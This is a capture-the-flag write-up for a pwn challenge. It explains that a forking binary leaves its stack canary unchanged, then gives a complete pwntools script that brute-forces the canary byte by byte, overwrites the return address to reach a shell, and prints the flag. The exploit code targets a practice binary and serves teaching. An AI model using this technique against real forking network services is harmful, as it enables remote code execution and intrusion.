 ![Alt text](image.png)

# 8 ^ 256 

--- Hello, welcome to my little forking binary I made it special just for you I hope you don't disappoint me.

the trick is that a fork doesn't change the canary, so you can bruteforce it byte by byte
``` python
from pwn import *

e = ELF("./canary_patched")
context.binary = e

'''
Hello, welcome to my little forking binary
I made it special just for you
I hope you don't disappoint me.

Forked proccess...
I am the forked process!
How much data would you like to read?
'''

def get_con():
    if args.REMOTE:
        #  nc 0.cloud.chals.io 27190 
        p = remote('0.cloud.chals.io', 27190)
    else:
        if args.GDB:
            p = gdb.debug([e.path], '''
            # ---< Your gdb script here >---
            continue
            ''', aslr=False)
        else:
            p = process([e.path])
    return p


def trial(p, buffer) -> bool:
    n = len(buffer)
    p.sendlineafter(b"How much data would you like to read?\n", str(n).encode())
    p.sendlineafter(b"data\n", buffer)
    p.recvuntil(b"Exiting...\n")
    # did the binary crash or exit cleanly?
    data = p.recvline()
    return b"success" in data
    
# Good luck, you've got this!

p = get_con()

assert trial(p, b"A"*0x80)
assert not trial(p, b"A"*0x81)

canary = b"\0"
for i in range(3):
    flag = False
    for j in range(256):
        buf = b"A"*0x80 + canary + bytes([j])
        if trial(p, buf):
            canary += bytes([j])
            flag = True
            print(canary)
            break
    assert flag
    buf = b"A"*0x80 + canary
    assert trial(p, buf), "Could not reproduce canary " + str(buf)

buf = b"A"*0x80 + canary +  p32(e.symbols['give_shell'])*20

p.sendlineafter(b"How much data would you like to read?\n", str(len(buf)).encode())
p.sendlineafter(b"data\n", buf)

p.interactive()

'''
[+] Opening connection to 0.cloud.chals.io on port 27190: Done
b'\x00\xfc'
b'\x00\xfc\xa0'
b'\x00\xfc\xa0\x99'
[*] Switching to interactive mode
Exiting...
```
```
$ $ ls
```


canary    canary.c  flag.txt

```
$ $ cat flag.txt
```

## flag{but_is_it_cookie_or_canary_though}
$ $  

'